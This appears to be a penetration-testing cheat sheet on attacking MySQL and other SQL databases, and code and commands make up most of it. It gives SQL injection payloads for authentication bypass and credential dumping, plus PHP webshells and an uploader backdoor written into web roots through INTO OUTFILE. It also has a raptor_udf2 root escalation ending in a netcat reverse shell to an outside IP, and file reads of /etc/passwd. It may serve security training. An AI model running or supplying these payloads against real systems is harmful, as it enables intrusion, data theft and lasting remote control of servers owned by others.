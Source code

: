 ## MySQL Port 3306

#### Enumeration

````
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.11.1.8 
````

#### Logging in

```bash
mysql -u root -p
mysql -u root -p'root' -h $ip -P 3306
```

#### Connecting

```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306

www-data@debian:/home/skunk$ mysql -u 'lavita' -p 'sdfquelw0kly9jgbx92'
ERROR 1044 (42000): Access denied for user 'lavita'@'localhost' to database 'sdfquelw0kly9jgbx92'

www-data@debian:/home/skunk$ mysql -u 'lavita' -p 'lavita' #  lavita db
MariaDB [lavita]> 
```

#### Commands

```sql
show databases;
show tables;
use db_name;
select * from passwords;
```

#### Login

Try logging in as someone you know is a valid user, and with "%" as the password.

```php
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

#### MySQL 4.x or MySQL 5.x ?? -> root :)

```bash
gcc -g -c raptor_udf2.c  #compile the exploit code
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc #create the shared library (so)
mysql -u root -p
show variables like '%plugin%';
show variables like '%secure_file_priv%'; # Empty = good
use mysql;
create table foo(line blob);
insert into foo values(load_file('/var/www/raptor_udf2.so')); # Or wherever you want
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('id > /var/www/output; chown www-data www-data  /var/www/output'); # Get creative
select do_system('nc 192.168.49.136 8080 -e /bin/bash');
```

```bash
> admin' or 1=1-- -
```

#### Modifying Exploit

We found the webroot to be /var/www/html/. Note that I changed the query from the url to a header in a request, so at the end of the request, I put view=... I also changed it from a GET to a POST with "Content-Type: application/x-www-form-urlencoded".

From:
```bash
http://website.com/zm/?view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=5
```
To:
```bash
http://website.com/zm/?view=request&request=log&task=query&limit=100;SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”

#or for windows
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

Upload php command injection.

```bash
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Load file.

```bash
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

Inside URL:

```bash
http://192.168.11.35/comment.php?id=738 order by 1
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,5,6
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,@@version,6
# To!discover!the!current!user!being!used!for!the!database!connection:
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,user(),6
# View the tables
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables
# Look into users table
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'
# Extract username and password
http://192.168.11.35/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users
```

#### Enumeration

```bash
SELECT * FROM mysql.user;
```

## SQL Injection - MySQL/MariaDB

Bypass Authentication
```
' or 1=1 -- -
admin' -- -
' or 1=1 order by 2 -- -
' or 1=1 order by 1 desc -- - 
' or 1=1 limit 1,1 -- -
```

get number columns
```
-1 order by 3;#
```

get version
```
-1 union select 1,2,version();#
```

get database name
```
-1 union select 1,2,database();#
```

get table name
```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#
```

get column name
``` 
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#
```

dump
```
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#
```

#### Webshell via SQLI

view web server path  
```
LOAD_FILE('/etc/httpd/conf/httpd.conf')    
```

creating webshell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```
 
#### Reading Files via SQLI - MySQL

```
SELECT LOAD_FILE('/etc/passwd')
```


#### Notes

- If you have a valid password, try using that same password for the admin accounts (root)
- mycli solved ssl problem

#### SQLite

```bash
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- # Extract Table Names
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users-- # Extract Table Users
```

#### Oracle SQL

```bash
' or 1=1-- # Auth bypass
' order by 3-- # Get number of columns
' union select null,table_name,null from all_tables-- # Get table name
' union select null,column_name,null from all_tab_columns where table_name='<table_name>'-- # Get column name
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS-- # Dump data
```